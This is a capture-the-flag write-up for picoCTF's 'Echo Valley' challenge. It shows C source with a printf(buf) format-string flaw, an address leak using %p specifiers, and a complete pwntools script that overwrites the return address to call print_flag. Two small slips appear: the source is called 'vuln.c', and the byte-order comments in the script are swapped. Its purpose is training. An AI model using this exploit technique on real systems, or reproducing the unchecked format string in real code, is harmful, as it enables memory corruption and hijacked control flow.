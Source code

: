 After launching the instance, we are given the description:

**The echo valley is a simple function that echoes back whatever you say to it. 
But how do you make it respond with something more interesting, like a flag?
Download the source: [valley.c](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley.c)
Download the binary: [valley](https://challenge-files.picoctf.net/c_shape_facility/3540df5468ae2357d00a7a3e2d396e6522b24f7a363cbaff8badcb270d186bda/valley)
Connect to the service at `nc shape-facility.picoctf.net 49319`**

and also the hint:

**Hints: Ever heard of a format string attack?**

After downloading the source and the binary, we take a look at the source code: 
```
#include <stdio.h>

#include <stdlib.h>

#include <string.h>

  

void print_flag() {

    char buf[32];

    FILE *file = fopen("/home/valley/flag.txt", "r");

  

    if (file == NULL) {

      perror("Failed to open flag file");

      exit(EXIT_FAILURE);

    }

    fgets(buf, sizeof(buf), file);

    printf("Congrats! Here is your flag: %s", buf);

    fclose(file);

    exit(EXIT_SUCCESS);

}

  

void echo_valley() {

    printf("Welcome to the Echo Valley, Try Shouting: \n");

  

    char buf[100];

  

    while(1)

    {

        fflush(stdout);

        if (fgets(buf, sizeof(buf), stdin) == NULL) {

          printf("\nEOF detected. Exiting...\n");

          exit(0);

        }

  

        if (strcmp(buf, "exit\n") == 0) {

            printf("The Valley Disappears\n");

            break;

        }

  

        printf("You heard in the distance: ");

        printf(buf);

        fflush(stdout);

    }

    fflush(stdout);

}

  

int main()

{

    echo_valley();

    return 0;

}
```


The *vuln.c* program has 3 functions: main(), echo_valley(), and print_flag(). 
Looking at echo_valley we immediately see a ```printf(buf);```that uses the buffer size 100 without format parameters. As such, we can assume this is what the hint was referring to. 

I took a look at the executable binary file with ```checksec``` 

![alt text](https://github.com/Andrew-exe/picoCTF-writeups/blob/main/Pasted%20image%2020250324190354.png)
Most of the protections were enabled, so instead of trying to overflow, we will need to replace the return value of the stack in the echo_valley() function to the address of the print_flag() function.

With this information in mind, I tried inputting multiple %p to find addresses to leak. 

Using **%21$p**, we get the return value
![alt text](https://github.com/Andrew-exe/picoCTF-writeups/blob/main/Pasted%20image%2020250324192246.png)

and **%20$p** is the stack leak
![alt text](https://github.com/Andrew-exe/picoCTF-writeups/blob/main/Pasted%20image%2020250324192511.png)

Using this information, we found the offset using GDB to get the return address of the echo_valley() function and also the print_flag() address. 

Here is our python code that automates this process using pwntools
```
from pwn import *

  

context.update(arch="amd64")

  

def leak(p):

    payload = b"%20$p.%21$p"

    p.sendlineafter(b"Try Shouting: \n", payload)

    return p.recv().strip().split(b" ")[-1]

  

#p = process("./valley")

p = remote("shape-facility.picoctf.net", 64728)

  

all_leaks       = leak(p)

pie_leak        = int(all_leaks.split(b".")[1], 16)

stack_leak      = int(all_leaks.split(b".")[0], 16)

pie_base        = pie_leak - 0x1413

print_flag      = pie_base + 0x1269

target_address  = stack_leak - 8

  

print("[+] pie leak: 0x%x" % pie_leak)

print("[+] stack leak: 0x%x" % stack_leak)

print("[+] pie base @ 0x%x" % pie_base)

print("[+] print_flag @ 0x%x" % print_flag)

print("[+] overwrite target @ 0x%x (echo_valley() return address)" % target_address)

  

# write the upper 4 bytes

writes  = {target_address: print_flag & 0xffffffff }

payload = fmtstr_payload(6, writes)

print(payload)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

# write lower 4 bytes

writes = {target_address + 4: print_flag >> 32 }

payload = fmtstr_payload(6, writes)

p.sendline(payload)

p.recvuntil(b"You heard in the distance: ")

  

p.sendline(b"exit")

p.recvuntil(b"The Valley Disappears\n")

  

p.interactive()
```

After running the code and remotely connecting to the server we get the flag. 
![alt text](https://github.com/Andrew-exe/picoCTF-writeups/blob/main/Pasted%20image%2020250324193118.png)
